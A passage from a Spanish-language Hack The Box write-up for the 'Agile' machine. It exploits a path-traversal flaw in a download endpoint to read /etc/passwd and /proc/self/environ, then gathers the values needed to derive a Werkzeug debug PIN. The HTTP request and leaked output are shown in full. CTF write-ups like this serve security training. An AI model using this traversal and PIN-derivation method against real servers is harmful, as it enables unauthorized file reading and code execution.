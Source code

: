 ```null
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false
```

Al producir un error se puede acceder al modo de depuración de ```WerkZeug```, pero es necesario un PIN del cual no dispongo

<img src="/writeups/assets/img/Agile-htb/4.png" alt="">

En [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) explican una forma de como generarlo a partir de archivos de la máquina. Listo las variables de entorno para ver quien está ejecutando el servicio

```null
GET /download?fn=../proc/self/environ HTTP/1.1
```

```null
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 12 Aug 2023 09:30:40 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 260
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

LANG=C.UTF-8PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/binHOME=/var/wwwLOGNAME=www-dataUSER=www-dataINVOCATION_ID=b60052b6f23e4edb83976411c92b14ceJOURNAL_STREAM=8:33082SYSTEMD_EXEC_PID=1074CONFIG_PATH=/app/config_prod.json
```

El archivo principal con su directorio se puede ver que es ```flask/app.py``` y el nombre del servicio ```wsgi_app``` en el error

<img src="/writeups/assets/img/Agile-htb/5.png" alt="">

También me tengo que quedar con la ruta absoluta ```/app/venv/lib/python3.10/site-packages/flask/app.py```. Y, por último, los ```private bits```. Con el ```/proc/net/arp``` puedo ver el nombre de la interfaz de red
